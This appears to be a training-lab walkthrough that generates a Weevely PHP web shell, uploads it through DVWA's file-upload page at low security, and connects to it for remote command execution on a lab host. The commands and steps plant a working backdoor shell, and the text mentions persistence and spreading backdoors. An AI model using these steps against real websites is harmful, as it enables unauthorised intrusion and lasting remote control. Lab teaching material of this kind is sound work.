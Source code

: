 - Gaining backdoor access refers to entering a website in a stealthy way. These Backdoors are often installed via some unvalidated uploads. This vulnerability allows you to upload harmful files to the target web server. Websites that are developed using PHP are often susceptible to this kind of attack.

- A professional ethical hacker or pen tester can use tools such as Weevely to gain backdoor access to a website without being traced. Weevely is used to develop a backdoor shell and upload it to a target server in order to gain remote shell access. This tool also helps in performing administrative tasks, maintaining persistence, and spreading backdoors across the target network.

- Here, we will gain backdoor access via a web shell using Weevely.
- Open Terminal
	>weevely generate #password #filepath 
	- (here, the password is **toor**, and the file path is **/home/attacker/Desktop/shell.php**) and press **Enter** to generate a shell file.

- Click the **Firefox** icon from the top section of **Desktop**, type **http://10.10.10.16:8080/dvwa/login.php**. Into the address bar and press **Enter** and login.
- Change the **Security Level** from impossible to low by selecting **Low** from the drop-down list and clicking the **Submit** button.
- Click the **File Upload** option from the left pane.
- The **Vulnerability: File Upload** page appears. Click the **Browse…** button to upload a file.
- The **File Upload** window appears; navigate to the **Desktop** location, select the payload file **shell.php**, and click **Open**.
- Now, click the **Upload** button to upload the file to the database.
- You will see a message that the file has successfully been uploaded, with the location of the file. Note the location of the file and minimize the browser window.
- Open Terminal
	> weevely http://10.10.10.16:8080/dvwa/hackable/uploads/shell.php #password (This command establishes a connection with the payload and interacts with the target)
	
	- You can observe that a session has successfully been established with the victim system.
	- Now, type **whoami** and press **Enter** to view the system details of the victim machine.
	- The result appears, displaying the running system privileges and the present working directory.
	- Now, type **ipconfig** and press **Enter** to view the IP configuration of the victim machine.
	- The result appears, displaying the victim machine’s IP address, default gateway, Ipv6 address, and other information.